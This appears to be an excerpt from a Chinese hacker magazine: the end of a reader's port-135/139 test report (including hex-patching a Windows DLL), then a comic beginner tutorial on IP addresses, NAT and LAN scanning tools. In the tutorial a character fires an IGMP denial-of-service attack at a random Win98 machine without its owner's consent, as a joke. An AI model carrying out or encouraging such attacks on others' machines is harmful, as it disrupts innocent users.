






## 小鸡快跑


看电脑 B 的端口（图 8）。

一开始怀疑是 445 端口，按刚才的方法关闭后发现还是老样子。再看其他开放的端口，基本上都是大于 1024 的高端端口，只有 135 比较可疑。现在只有关闭 135 端口才能说明问题，可是在 Win2k 下无法关闭 135 端口，再次上网，查询后终于有了办法。

将 winnt\system32\rpcs.s.dll 文件用十六进制文件编辑器打开，寻找 3100330035，改为 3000300030，意思就是将 135 改为 000。但直接保存不行，需另存后进入 DOS，将原 rpcs.s.dll 覆盖。重新进入后再键入 netstat -an 后如图 9 所示，135 端口已关闭，这时电脑 A 的 135 和 139 端口都关掉了。

再从电脑 A 向电脑 B 发送消息，哈哈！果然不出所料，终于发送失败了。至此得出的结论是：信使服务默认状态下使用 139 端口接受消息，139 失败的情况下使用 135 来通讯，但速度要慢一些，这也解释了为什么石勒同学即使关闭了 139 端口，上网冲浪仍会收到别人发过来的信息。

以上是本人做的关于 139 和 445 端口的一些测试报告，并没有什么新的技术，只是想通过这些实验把一些问题搞清楚，希望对大家也有用。


# 麻辣教师系列之 初入江湖

近墨

最近菜鸟的机器老是出现一些错误，再加上电视新闻中不断出现病毒通告，网上不断发布生猛可口的漏洞。菜鸟心想，这年头，不学点安全知识，不要说在 MM 面前无法立足，就是自身安全恐怕也很难保了。于是找到了对安全知识有相当“造诣”的菜虎（菜虎同志简介——2岁动过鼠标；3岁对着屏幕发笑；4岁开始尝试敲键盘；5岁试图往屏幕上抹口水……15 岁把“世界上没有进不去的电脑”作为座右铭。）

菜虎笑问：“你想学什么？”
菜鸟：“我想黑人家的机子，当个黑客！”
菜虎：“黑客从不黑别人的机器，你那应该是骇客！再者，还没学会走就想跑！为了让你这个初入江湖的小菜在以后的日子里走得稳当，还是先学些基础知识吧！先给你说一下什么是网络。”
菜鸟：“网络，不就是那个 Internet 嘛……”
菜鸟看到菜虎二目圆睁的盯着自己，把话又咽了回去。

菜虎：“也对，Internet 就是互联网的意思，所谓互联网，就是互相联结在一起的网络……”

菜鸟插话说：“那蜘蛛网要是也互相联络的话，也叫做互联网了？”
只听“扑通”一声，原来是一本书掉在地上了！
“晕啊！”菜虎无可奈何的耸了耸肩，继续说：“在讲 Internet 之前，先说一下网络的分类。按照网络所覆盖的地理范围大小，可分为局域网（LAN）、城域网（MAN）和广域网（WAN）三种。”

看到菜鸟疑惑不解的盯着自己，菜虎颇有自信的说：“其实这也很好理解，从名字上就能看出。局域网就是在局部区域内相互联结的网络，如一个办公室内的网络、一栋大楼内的网络，还有网吧、学校机房之类的……”

菜鸟：“照你这么说，城域网就是城市区域内相互联结的网络，而广域网就是在广大区域内联结的网络了！”
“哟！你的理解能力很强啊！”菜虎笑着说：“城域网是适用于一个城市的信息通信基础设施，是国家信息高速公路与城市广大用户之间的中间环节，是一条覆盖整个城市范围的城市信息高速公路；而广域网的覆盖范围最大，几个城市、一个国家、几个国家甚至全球都属于广域网的范畴之内。而我们刚才提到的互联网——Internet，它就是指通过普通电话线、高速率专用线路、卫星、微波和光缆等线路把不同国家的大学、公司、科研部门以及政府等组织的局域网、城域网和广域网连接起来，组成一个庞大规模、拥有大量用户的全球性计算机通讯网络。”

菜鸟：“这么多计算机连在一起，那还能不乱！怎样区分谁是谁啊？”

菜虎：“虽然互联网上连接了大量的服务器和计算机，但它们不是处在一种杂乱无章的状态下，在某个网络内，每台计算机都有一个唯一的地址，这个地址就是我要给你介绍的 IP 地址（Internet Protocol Address）。”

“爱皮（IP）？”菜鸟像忽然想起什么似的：“我的同桌对 MM 大谈网络时也是爱皮、爱皮的，我问他，他不理我，都闷啊！那什么是爱皮（IP）呢？”

菜虎：“当处于某个网络内的两台计算机之间相互通信时，它们所传送的数据包里就会含有某些附加信息，这些附加信息就是发送数据的计算机地址和接受数据的计算机地址，这些地址就称为

## 小鸡快跑

IP 地址。所以说 IP 地址是网络分配给每台计算机或网络设备的 32 位数字标识，是计算机在网络上的地址标识，同时这个标识在网络上也是唯一的。

菜鸟：“搞不懂，有点糊涂了！”

菜虎：“其实 IP 地址就相当于现实中的一个单位或家庭在所属城市的街道名称和门牌号，如果你做了坏事，警察叔叔也会通过这个地址找到你的。”

“我才不会做坏事呢！不过，听你这么一讲，我就明白 IP 地址的意思了。”菜鸟心里说：“刚才说那么多高深的知识！我头都听大了！”

菜虎：“再说一下 IP 地址的表示方式，IP 地址是由 32 位二进制数组成的，如互联网上某台计算机的 IP 地址为：‘00111101100001111001100110110110’，很明显，这些数字对于人来说不好记忆，为了方便记忆，人们就将 32 位二进制的 IP 地址分成四段，每段 8 位，中间用小圆点隔开，然后将每八位二进制转换成十进制数。这样，上面的那个 IP 地址就变成了‘61.135.153.182’。所以，我们平常看到的 IP 地址就是这样表示的：‘xxx.xxx.xxx.xxx’，其中‘xxx’是 0 到 255 之间的任意整数。”

菜鸟：“原来如此。”

菜虎：“对了，还有几个特别的 IP 地址要给你说一下。‘127.x.x.x’是留给本机地址使用的，Windows 默认的本机 IP 地址是 127.0.0.1；而 10.x.x.x、172.16.x.x 至 172.31.x.x 和 192.168.x.x 是留给本地网络使用的，就像网吧与学校机房，IP 地址用的是 192.168.x.x 段。而那些利用光缆入网的小区用户的 IP 地址就是用的 10.x.x.x 段。这些网络连到互联网后，互联网分配的 IP 地址与计算机使用的这些 IP 地址会不一样，这是因为接入互联网的方式不同，有内网接入与公网接入之分。”

菜鸟：“前两天看了 2003 年第 2 期的《黑客 X 档案》，有篇文章提到了内网木马，好像现在很流行内网这个词，那什么是内网？为什么那个与内网对应的不叫外网呢？”

菜虎：“公网与内网是两种接入 Internet 的不同方式。所谓的内网接入是指上网的计算机得到的 IP 地址是 Internet 上的保留地址，这个保留地址就是我刚才提到 10.x.x.x、172.16.x.x 至 172.31.x.x、192.168.x.x 三种形式。内网的计算机以 NAT（网络地址转换）协议通过一个公共的网关访问 Internet，如网吧、学校机房以及用光缆入网的小区用户等都是属于内网接入，内网的计算机可向 Internet 上的其他计算机发送连接请求，但 Internet 上的其他计算机无法向内网的计算机发送连接请求。”

而公网接入则是指上网的计算机得到的 IP 地址是 Inetnet 上的非保留地址。如采用 ADSL 拨号入网的用户等，通过公网接入的计算机和 Internet 上的其他计算机可随意互相访问。”

## 知识速递

NAT（Network Address Translator）是网络地址转换，它实现内网的 IP 地址与公网的地址之间的相互转换，将大量的内网 IP 地址转换为一个或少量的公网 IP 地址，减少对公网 IP 地址的占用。NAT 的最典型应用是：在一个局域网内，只需要一台计算机连接上 Internet，就可以利用 NAT 共享 Internet 连接，使局域网内其他计算机也可以上网。使用 NAT 协议，局域网内的计算机可以访问 Internet 上的计算机，但 Internet 上的计算机无法访问局域网内的计算机。

菜鸟：“那怎么判断我的入网方式是内网接入还是公网接入呢？”

菜虎：“打开一个 DOS 窗口（Win98 系统中的 MS-DOS 方式，Win2000、XP 系统中的 CMD 命令提示符），在其中输入 ipconfig 命令，回车后会在下方显示你的 IP Address（IP 地址），如图 1。其中框起来的部分即为本机的 IP 地址（10.142.132.24）。然后登录到一些可以显示当前计算机 IP 地址的网页，如《黑客 X 档案》官方论坛（http://www.hackerxfiles.net/bbs），将网页中显示的真实 IP 地址同 Ipconfig 中显示的 IP 地址进行对照，如果 Ipconfig 中有网页显示的 IP 地址，那么就是公网接入 Internet，否则就是内网接入。图 2 就是这个计算机在《黑客 X 档案》论坛中显示的 IP 地址（218.56.26.2）。”





菜鸟：“在 ipconfig 中显示的没有网页中的 IP 地址，看来我是内网接入的，那别的计算机就不能连接我的计算机了，也就是说，别人不能攻击到我的机器了？”

菜虎：“不然，那些反弹木马就是由本地计算机主动去连接远程主机，2004 年第 2 期《黑客 X 档案》介绍的那个内网木马，竟然是通过网页进行中转，所以不要轻易运行网友传给你们的程序，一不小心就会中招的。刚才了解了一些基本知识，下面就练习一下 IP 地址扫描，为了方便，还是扫描你所在的内网 IP 地址段吧！”

菜鸟：“为什么要扫描我所在的网段啊！好像有点‘兔子单吃窝边草’的意思！`_`”

“哪里！这叫‘靠山吃山’，我也是为了让大家提高安全知识嘛！”菜虎不好意思的笑了：“先请出‘月光搜索—追捕版’（图 3），这是一个非常不错的工具，它可快速扫描 IP 地址段，列出当前在线的计算机名称和工作组 / 域名。”


菜鸟：“什么叫 IP 地址段啊？”

菜虎：“刚才我们用 IPconfig 看到了本机的内网 IP 地址是 10.142.132.24，那这台计算机所处的 IP 地址段就是 10.142.132.1 - 10.142.132.255，看到没有？只是最后的一段发生了变化，在这个 1 至 255 之间就是 10.142.132 的 IP 地址段。”

菜鸟在“月光搜索”的“起始地址”处输入“10.142.132.1”，“结束地址”处则输入“10.142.132.255”，然后点击“开始搜索”按钮。

“哎呀！速度快啊！”菜鸟看到软件的列表框内飞速闪过许多 IP 地址，惊叹地说：“这么多计算机，都是谁啊？”

菜虎：“扫描完成后，可以点击‘保存结果’，把详细列表保存为 TXT 文件，也可拖动鼠标在扫描结果的窗口内查看，在每个 IP 地址下面都显示了这个 IP 地址所对应的用户名及工作组 / 域名，找到你的 IP 地址了吗？”

菜鸟：“找到了（图 4），用户名：CAINIAO，工作组 / 域名：HACK，得到这些结果有什么用呢？”


## 小鸡快跑

菜虎：“用这个工具可以迅速扫描某个网段，了解某个网段中当前计算机在线情况及计算机的用户名及工作组 / 域名，然后根据显示的工作组 / 域名粗略判断该计算机是服务器还是普通主机，比如在工作组中有一个或几个名称中带有“$”，如“INet Services”，那么可初步认为这台计算机是服务器，而其它那些就有可能是普通计算机了，然后再用一些软件来判断这些计算机的操作系统类型。”



图4

菜鸟：“什么软件？”

菜虎：“可以用“X-Scan”软件进行扫描，在‘扫描模块’内只选择‘NetBios’信息，然后在‘扫描参数’内的‘基本设置’中输入一个IP地址段（如10.142.132.1-10.142.132.255）或一个IP地址（10.142.132.24），然后点击‘扫描’，就可得到目标主机的系统类型了。

如果显示结果是Windows95/98，那目标主机就是Win95/98操作系统（超级废话）；如果是Windows NT5，则是Win2000系统；如是Windows NT 5.1，则是WinXP；如是5.2，就是Win2003系统了。

这是一个很强大的工具，在以后的日子里你会经常用到的，如果想详细了解这个软件的功能，请参阅本期11页详细扫描报告的文章。”

菜鸟：“少来了，还给我留一手啊！你要是今天不教我点实用的，哼哼，午饭你请客！”

“不会吧！教你还要请你吃饭！”菜虎：“那就再给你介绍个工具（图5），独孤剑客的‘IP Hacker’，这是一个集域名转换、主机探测、端口扫描和漏洞重现于一体的综合性网络安全工具。由于这是剑客2000年推出的软件，至今也没有新的版本出现，所以在进行“主机信息”探测时，对于2000年以后推出的操作系统XP和Win2003不能正确判断。不过，今天我们要用的是它对Win98系统的IGMP攻击。”

IGMP攻击。”



图5

菜鸟一听攻击，顿时来了兴趣。“这个正点，快说、快说，午饭我请！”

菜虎听到有饭吃了，立即眉飞色舞的讲了起来：“这个IGMP攻击就是利用了Win98系统中IGMP协议的漏洞，IGMP（Internet Group Management Protocol-互联网组管理）协议是一种非面向连接协议，对于没打IGMP补丁的Win98系统，由于不能很好的处理过大的IGMP数据包，因而会造成网络交通堵塞，发生断网、蓝屏现象，严重的会出现系统崩溃等情况。”

菜鸟：“这么厉害，那我的Win98是不是存在这个漏洞啊？要么先试一下？”

菜鸟打开IP Hacker工具，在“要测试的IP地址”内输入本机内网IP地址（10.142.132.24），在软件窗口内选择“Win98”项内的“IGMP”。按默认设置，点了一下“测试”，弹出“数据发送完成”窗口。

菜虎：“没什么异常啊？加大火药量试试！”

菜鸟又将包数量改为100，点击“测试”后，仍然没有蓝屏，菜鸟失望的说：“为什么不行啊？”

菜虎：“IGMP攻击主要是向对方阻塞网络，对自己可能不行吧！”

菜鸟：“换一个别的IP地址试试。”

在月光搜索的列表中随便找了一个看似Win98系统的IP地址，然后就把IGMP炸弹扔了过去。

菜鸟：“如何知道对方受到攻击、蓝屏呢？”

菜虎：“简单，用月光搜索再扫描一次这个IP地址，如果存在，说明对方没有蓝屏，要么是系统类型不对，要么是已经打了补丁！如果扫描不到了，那就是目标机已被你炸下网络，蓝屏了。”

菜鸟：“到那儿去下载这个补丁啊！”

菜虎：“再教你一招，对于自己不懂的问题，就用Baidu.com或Google.com这两个搜索，输入问题的关键词，就能找到很多详尽的答案。不过今天赶巧了，我的优盘中有就IGMP补丁，省得你在网上东奔西跑了。”

菜虎插上优盘，点击IGMP的Win98第二版补丁3304upse.exe，软件提示是不是安装在Win98系统上，当然“是”了，接着又问是不是接受协议，“Yes”！就完成了补丁安装。

菜虎：“只要再重启一次计算机，就平安无事了！好了！午饭时间到了，你请我到那儿搓去？”

菜鸟嬉皮笑脸的说：“我说过吗？”

菜虎：…………

…………

火星观测站广播：

各外星单位请注意，一不明物体正从地球急速飞来。估计又是地球人发射的破火星探测器，都被我们搞坏好几个了，还来…………

…………

地球：

菜虎梦想中的午饭落空，一脚把菜鸟踢向了火星。这一招叫“还我午饭漂漂腿”。收工，OVER！

（本文讲到的以下工具光盘中有收录：Win98的IGMP补丁、IP HACKER、月光搜索—追捕版）

